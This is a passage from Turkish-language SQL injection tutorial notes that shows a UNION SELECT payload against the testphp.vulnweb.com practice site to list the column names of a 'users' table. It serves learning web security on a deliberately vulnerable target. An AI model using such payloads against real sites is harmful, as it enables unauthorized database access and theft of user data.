 ![Untitled](0x01%20104201f95d914f67830bee663ffbdc7f/Untitled%2035.png)

artık burada örneğin “users” tablosundan veri çekmek istersek şöye bir sorgulama yapabiliriz:

```
http://testphp.vulnweb.com/listproducts.php?cat=-1
UNION SELECT 1,2,3,4,5,6,column_name,8,9,10,11
FROM information_schema.columns WHERE table_name ='users'
```
